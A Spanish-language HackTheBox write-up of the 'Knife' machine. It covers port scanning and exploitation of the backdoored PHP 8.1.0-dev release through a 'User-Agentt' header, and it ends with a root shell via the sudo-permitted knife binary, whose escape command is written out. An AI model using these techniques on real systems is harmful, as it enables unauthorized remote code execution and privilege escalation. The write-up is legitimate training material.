 ```yaml
---
title: "Knife - HTB Writeup"
layout: single
excerpt: "Knife es una máquina de dificultad fácil de HackTheBox. En esta máquina explotamos un backdoor de una versión de PHP para acceder. Para escalar privilegios abusamos de un binario que podemos correr como root"
show_date: true
classes: wide
header:
  teaser: "https://user-images.githubusercontent.com/67548295/131227706-27ff0185-2d61-42b9-9e95-8eb4dc055758.png"
  teaser_home_page: true
  icon: "assets/images/icons/HackTheBox-icon.png"
categories:
  - Writeup
  - HackTheBox
tags:
  - Backdoor
  - PHP
  - Sudo
  - Linux
---
```


![titulo](https://user-images.githubusercontent.com/67548295/131227718-00ab6578-c969-4bd9-b441-91c99cccc9f1.png)

# Enumeración

Empezamos enviando una traza [ICMP](https://es.wikipedia.org/wiki/Protocolo_de_control_de_mensajes_de_Internet) con la herramienta `ping`, con esto veremos el estado de la máquina y su sistema operativo:

```bash
┌─[z3r0byte@z3r0byte]─[~]
└──╼ $ping -c 1 10.10.10.242
PING 10.10.10.242 (10.10.10.242) 56(84) bytes of data.
64 bytes from 10.10.10.242: icmp_seq=1 ttl=63 time=76.8 ms

--- 10.10.10.242 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 76.791/76.791/76.791/0.000 ms
```

| Parámetro | Acción |
|:---------:|:------:|
| `-c 1` | elegimos que solo queremos enviar 1 traza |

Se puede ver que la máquina está activa y que observando el TTL, concluimos que es una máquina Linux.

Más información sobre la detección de OS mediante TTL [aquí](https://subinsb.com/default-device-ttl-values/).

También puedes hacer uso de mi herramienta [OSidentifier](https://github.com/z3robyte/OSidentifier).

## Nmap

Empezamos con la fase de escaneo de puertos, en mi caso utilizaré la famosa herramienta `nmap`:

```bash
┌─[z3r0byte@z3r0byte]─[~]
└──╼ $sudo nmap -p- --open -sS --min-rate 4000 -v -n 10.10.10.242 -sC -sV -oN targeted
 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-28 19:46 WEST
NSE: Loaded 153 scripts for scanning.
NSE: Script Pre-scanning.
Scanning 10.10.10.242 [4 ports]
Completed Ping Scan at 19:46, 0.12s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 19:46
Scanning 10.10.10.242 [65535 ports]
Discovered open port 22/tcp on 10.10.10.242
Discovered open port 80/tcp on 10.10.10.242
Initiating Service scan at 19:46
Completed NSE at 19:46, 0.00s elapsed
Nmap scan report for 10.10.10.242
Host is up (0.079s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
Initiating NSE at 19:46
Completed NSE at 19:46, 0.00s elapsed
Initiating NSE at 19:46
Completed NSE at 19:46, 0.00s elapsed
Initiating NSE at 19:46
Completed NSE at 19:46, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.81 seconds
           Raw packets sent: 66450 (2.924MB) | Rcvd: 66447 (2.658MB)
```

| Parámetro | Acción |
|:---------:|:------:|
| `-p-` | Es una forma de especificar que queremos escanear todos los puertos existentes, los 65535. |
| `--open` | Este parámetro hace que nos muestre únicamente los puertos abiertos, que nos omita los filtered. |
| `-sS` | Especificamos el tipo de escaneo 'SYN port Scan', que es más rápido y sigiloso que el tipo de escaneo por defecto. |
| `--min-rate [valor]` | envía paquetes tan o más rápido que la tasa dada. |
| `-v` | Especifica que queremos más 'verbose', es decir, que nos muestre mas información de la convencional. |
| `-n` | Quitamos la resolución DNS para que el escaneo vaya más rápido. |
| `-sC` | Utiliza un escaneo con una serie de scripts por defecto de nmap. |
| `-sV` | Activa la detección de versiones. |
| `-oN [nombre de archivo]` | Exporta los resultados en formato normal, tal cual se ve en el escaneo. |

Vemos 2 puertos

| Puerto | Servicio |
|:------:|:--------:|
| 22 | [SSH](https://www.hostinger.es/tutoriales/que-es-ssh) |
| 80 | [HTTP](https://developer.mozilla.org/es/docs/Web/HTTP) |

# User.txt

Una vez completada la enumeración de puertos, empiezo enumerando el servicio HTTP con el navegador:

![navegador1](https://user-images.githubusercontent.com/67548295/131227985-82b9c893-5cca-4ef2-8e90-290bc295361c.png)

Veo lo que parece ser una web relacionada con temas de salud y medicina.

Enumero las tecnologías que tiene con la herramienta `whatweb`:

```bash
┌─[z3r0byte@z3r0byte]─[~]
└──╼ $whatweb http://10.10.10.242
http://10.10.10.242 [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)],
IP[10.10.10.242], PHP[8.1.0-dev], Script, Title[Emergent Medical Idea], X-Powered-By[PHP/8.1.0-dev]
```
Y si nos fijamos, la versión de PHP es un tanto extraña, asi que busco información acerca de esa versión.

Hasta que encuentro lo siguiente:

![navegador2](https://user-images.githubusercontent.com/67548295/131228064-45645063-de70-4afd-85e6-0b991c9fe1ba.png)

Parece ser un exploit para esta versión, y encima un RCE!

Este release de PHP vino con un backdoor pero fue rápidamente eliminado. Este backdoor consiste en una modificación de la cabecera User-Agent. [Link](https://www.welivesecurity.com/2021/03/30/backdoor-php-source-code-git-server-breach/) a la noticia

En el exploit se puede ver con mas claridad:

![navegador3](https://user-images.githubusercontent.com/67548295/131228397-6ab974e1-47bf-447f-914f-a50a355de70f.png)

En la cabecera "User-Agentt" podemos introducir comandos.

Probemos a hacer esto con una petición con la herramienta `curl`:

![terminal1](https://user-images.githubusercontent.com/67548295/131228538-ccb73af6-814f-478e-8461-180a51d1e6dd.png)


| Parámetro | Acción |
|:---------:|:------:|
| `-H "cabecera"` | Establece una cabecera extra para hacer la petición |

Como podemos ver, funciona este RCE.

Con esto consigo meterme al sistema mediante una [reverse shell](https://segchock.blogspot.com/2018/02/reverse-shell-bind-shell.html)

![terminal2](https://user-images.githubusercontent.com/67548295/131228791-f3498304-f063-4e4f-beda-3e672cd9256e.png)

Ya podríamos ver la flag `user.txt` en el directorio /home/james/user.txt:

```bash
james@knife:/$ cat /home/james/user.txt 
9a2XXXXXXXXXXXXXXXXXXXXXXXXXXX28
```

# root.txt

Enumero el sistema como el usuario `james`.

Pruebo a hacer un `sudo -l` y vemos que podemos ejecutar este binario como root:

```bash
james@knife:/$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```
Lo primero que se me ocurre es ir a [GTFObins](https://gtfobins.github.io/) para ver si está comtemplada la explotación de este binario.

![terminal3](https://user-images.githubusercontent.com/67548295/131229016-50388fb4-cada-4992-ae9d-4dece1101dac.png)

Vemos que si está contemplada.

Probamos a ejecutar ese comando y conseguimos una shell como `root`:

```bash
james@knife:/$ sudo knife exec -E 'exec "/bin/sh"'

# whoami
root
```

Ya a partir de aquí podríamos ver la flag `root.txt` en el directorio /root/root.txt:

```bash
# cat /root/root.txt
4XXXXXXXXXXXXXXXXXXXXXXXXX1cba
```

# Resumen

En esta máquina hemos explotado una versión de PHP que venía con un backdoor, podíamos ejecutar comandos de forma remota a través de una cabecera modificada.
En la escalada de privilegios hemos abusado de un binario que podíamos ejecutar como root gracias a un permiso de sudoers.
